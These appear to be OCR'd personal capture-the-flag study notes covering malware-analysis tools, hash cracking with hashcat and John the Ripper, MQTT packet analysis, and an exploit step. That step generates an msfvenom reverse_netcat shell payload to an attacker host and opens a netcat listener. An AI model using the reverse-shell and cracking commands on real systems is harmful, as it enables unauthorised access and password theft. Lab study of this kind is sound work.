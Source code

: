 Identify malware entry point address
[PEiD](https://softfamous.com/peid/)    OR PEView tool


DIE - Identify PT_LOAD entry 
https://www.majorgeeks.com/mg/get/detect_it_easy,2.html#google_vignette


hashes.com/en/decrypt/hash
4. hash-identifier paste the text and see the type of hash and then hashcat -h | grep MD5
5. hashcat -m 0 hash.txt /Desktop/word list/urser.txt

Cifrado 384SHA
apt install sha384sum
sha384sum file1`

CRC32
https://emn178.github.io/online-tools/crc32_checksum.html
crc32 FILE

cat FILE.txt | base64 -d


Choose a Hash Cracking Tool:
Select a hash cracking tool like John the Ripper, Hashcat, or another suitable tool for the hash algorithm used in the file.

Use the chosen hash cracking tool with the wordlist to attempt to crack the password hash.
For example, if using John the Ripper, you might run a command like:

john --format=raw-MD5 --wordlist=/path/wordlist.txt SECRET.txt


# EXPLOIT

10. msfvenom -p cmd/unix/reverse_netcat LHOST=ip LPORT=444 and copy the path go to target machine
after login paste now find . -name flag.txt
11. start listen nc -lnvp 444
12. password type

# IOT AND IOT HACKING

Open the .pcap file with wireshark
Type “MQTT” in the filter bar and press enter
Look for MQTT publish messages in the packet list. 
MQTT publish messages typically have a PUBLISH message type.
Get the message length

Look through the filtered packetsto find an MQTT Publish Message.Each
MQTT Publish message has a topic associated with it.
Once you locate an MQTT Publishmessage, examine the topic field
The topic length is the number of characters or bytesthatmake up the topic string.
If, forinstance, you find an MQTT Publishmessage with a topic length of 9 characters,

#RAT
